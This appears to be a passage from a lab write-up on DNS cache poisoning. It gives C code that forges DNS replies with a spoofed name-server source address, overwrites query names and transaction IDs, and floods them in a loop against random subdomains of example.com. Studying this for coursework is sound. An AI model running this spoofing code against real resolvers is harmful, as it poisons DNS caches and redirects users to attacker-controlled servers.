 The 41th byte position is derived from [wireshark capture packet file](#view-packet-content)

### send_dns_response
```c
void send_dns_response(unsigned char *pkt, int pktsize, unsigned char *src,
                       char *name, unsigned short id) {
  // the C code will modify src,qname,rrname and the id field
  // src ip at offset 12
  int ip = (int)inet_addr(src);
  memcpy(pkt + 12, (void *)&ip, 4);
  // qname at offset 41
  memcpy(pkt + 41, name, 5);
  // rrname at offset 64
  memcpy(pkt + 64, name, 5);
  // id at offset 28
  unsigned short transid = htons(id);
  memcpy(pkt + 28, (void *)&transid, 2);
  // send the dns reply out
  send_raw_packet(pkt, pktsize);
}
}
```
In this function, we modify both the name in the question and the answer field to the randomly generated name
### Main function
In the main function we will call these two functions as follows
```c
  while (1) {
    // Generate a random name with length 5
    char name[6];
    name[5] = '\0';
    for (int k = 0; k < 5; k++)
      name[k] = a[rand() % 26];

    send_dns_request(name, ip_req, n_req);

    unsigned short transid = 0;
    for (int i = 0; i < 100; i++) {
      send_dns_response(ip_resp, n_resp, "199.43.135.53", name, transid);
      send_dns_response(ip_resp, n_resp, "199.43.135.53", name, transid);
      transid += 1;
    }

  }
```
Sending dns request should be quite straight forward, we send a request packet with a randomly generated name
With the same randomly generated name, we will loop through about 100 times to send out the dns response packet, with the same ranomly generated name

`199.43.135.53` is the ip address of the name server of `example.com` which is what we want to spoof
We can find this information using `dig ns example.com`
after seeing the name server in the answer section is `a.iana-servers.net`
We perform another `dig a.iana-servers.net` to get `199.43.135.53`

